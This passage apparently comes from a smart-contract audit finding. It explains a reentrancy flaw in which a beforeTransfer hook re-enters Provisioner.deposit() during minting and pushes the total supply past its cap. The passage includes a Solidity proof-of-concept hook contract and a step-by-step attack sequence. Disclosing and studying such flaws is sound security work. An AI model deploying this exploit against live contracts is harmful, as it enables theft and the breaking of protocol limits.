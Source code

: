 ```solidity
}
```

### 3. 🔴 The Attack Vector

The reentrancy attack works as follows:

1. **Initial deposit**: `Provisioner.deposit()` → checks cap → calls `enter()`
2. **Enter executes**: `token.safeTransferFrom()` (safe, no reentrancy)
3. **Mint executes**: `_mint()` → `_update()` → **`hook.beforeTransfer()`**
4. **Reentrancy**: The hook can call back to `Provisioner.deposit()`
5. **Cap bypass**: Second deposit checks same `totalSupply` (not yet updated)

## Attack Implementation

### Proof of Concept with BeforeTransferHook:

```solidity
contract MaliciousBeforeTransferHook is IBeforeTransferHook {
    Provisioner public provisioner;
    IERC20 public token;
    bool private reentering;
    
    function beforeTransfer(address from, address to, address) external {
        // from == address(0) means this is a mint operation
        if (from == address(0) && !reentering) {
            reentering = true;
            
            // REENTER the provisioner during mint!
            provisioner.deposit(token, 50 ether, 1);
            
            reentering = false;
        }
    }
}
```

### Attack Sequence:

1. **Setup**: Admin sets `beforeTransferHook` to a malicious contract (or compromised hook)
2. **First deposit**: Attacker calls `deposit(USDC, 60 ether, ...)`
   - Cap check: `totalSupply = 0`, cap = 100, passes ✓
   - Calls `enter()` → transfers USDC → calls `_mint()`
3. **During mint**: `_update()` calls `hook.beforeTransfer()`
   - Hook reenters: `deposit(USDC, 60 ether, ...)`
   - Cap check: `totalSupply = 0` (still!), passes ✓
   - Completes second deposit
4. **Result**: `totalSupply = 120 ether > 100 ether cap` ❌

## Key Observations
